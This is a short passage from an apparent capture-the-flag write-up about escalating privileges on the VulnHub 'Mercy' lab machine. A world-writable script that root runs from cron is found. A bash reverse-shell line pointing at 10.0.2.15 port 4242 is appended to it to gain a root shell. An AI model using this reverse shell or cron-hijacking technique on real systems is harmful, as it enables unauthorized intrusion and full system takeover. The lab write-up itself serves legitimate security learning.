 now shell deployed 

![]({{site.baseurl}}/assets/img/vulnhub/Mercy/location.png)

# PrivilageEsclation

after su as `fluffy` User there is writeable file which is owned by root running as a cron job 

```bash
fluffy@MERCY:~$ ls -al
ls -al
total 20
drwxr-x--- 4 fluffy fluffy 4096 May  1 20:53 .
drwxr-xr-x 6 root   root   4096 Nov 20  2018 ..
-rw------- 1 fluffy fluffy   12 Nov 20  2018 .bash_history
drwx------ 2 fluffy fluffy 4096 May  1 20:53 .gnupg
drwxr-xr-x 3 fluffy fluffy 4096 Nov 20  2018 .private
fluffy@MERCY:~$ cd .private
cd .private
fluffy@MERCY:~/.private$ ls 
ls 
secrets
fluffy@MERCY:~/.private$ cd secret
cd secret
bash: cd: secret: No such file or directory
fluffy@MERCY:~/.private$ cd secrets
cd secrets
fluffy@MERCY:~/.private/secrets$ ls -al
ls -al
total 20
drwxr-xr-x 2 fluffy fluffy 4096 Nov 20  2018 .
drwxr-xr-x 3 fluffy fluffy 4096 Nov 20  2018 ..
-rwxr-xr-x 1 fluffy fluffy   37 Nov 20  2018 backup.save
-rw-r--r-- 1 fluffy fluffy   12 Nov 20  2018 .secrets
-rwxrwxrwx 1 root   root    222 Nov 20  2018 timeclock
fluffy@MERCY:~/.private/secrets$ cd timeclock
cd timeclock
bash: cd: timeclock: Not a directory
fluffy@MERCY:~/.private/secrets$ timecloack
timecloack
timecloack: command not found
fluffy@MERCY:~/.private/secrets$ timeclock
timeclock
timeclock: command not found
fluffy@MERCY:~/.private/secrets$ ./timeclock
./timeclock
./timeclock: line 4: ../../../../../var/www/html/time: Permission denied
./timeclock: line 5: ../../../../../var/www/html/time: Permission denied
chown: changing ownership of ‘../../../../../var/www/html/time’: Operation not permitted
fluffy@MERCY:~/.private/secrets$ echo "bash -i >& /dev/tcp/10.0.2.15/4242 0>&1" >> timeclock
>> timeclocki >& /dev/tcp/10.0.2.15/4242 0>&1"
```

timeclock is a writeable file and which has a executable permission for everyone

echo the bash reverse shell command and wait to execute 

![]({{site.baseurl}}/assets/img/vulnhub/Mercy/root.png)